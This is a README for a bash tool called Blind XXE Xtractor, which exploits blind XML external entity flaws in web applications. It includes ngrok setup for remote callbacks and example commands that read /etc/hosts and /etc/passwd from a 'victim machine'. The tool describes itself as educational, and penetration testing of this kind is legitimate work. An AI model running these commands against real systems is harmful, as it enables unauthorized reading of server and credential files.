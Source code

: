 # Blind XXE Xtractor BETA

Blind XXE Xtractor is a script created for educational purpose to test Blind XXE vulnerabilities in controlled environments, which has support for local and remote websites with XML requests. It's in BETA because I tested almost everything but it would give errors, so if you find an error please report it and I will try to fix it.

**WARNING!**  It might fail with some XML requests so don't completely believe it, try some manual methods to be sure.

## Prerequisites

- Some basic tools like *curl*
- [Burp Suite](https://portswigger.net/burp/releases#community)
- [Ngrok](https://ngrok.com/download) (Optional)

## Installation

### 1 Clone the repository

```bash
git clone https://github.com/mys3quel/Blind-XXE-Xtractor && chmod +x Blind-XXE-Xtractor.sh
```

## Remote configure

### 1 Install Ngrok

```bash
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```
[Download Ngrok](https://ngrok.com/download)

### 2 Configure Ngrok

```bash
ngrok config add-authtoken your_token_here
```
[Get your token here](https://dashboard.ngrok.com/get-started/your-authtoken)

## Usage

```bash
./Blind-XXE-Xtractor.sh -h
```

### Examples

#### Run script in guide mode
```bash
./Blind-XXE-Xtractor.sh -g
```

#### Read the /etc/hosts of the victim machine using the exported request from BurpSuite
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/hosts
```

#### Read the /etc/passwd of the victim machine using the exported request from BurpSuite and a custom port for the connection
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/passwd -p 90
```
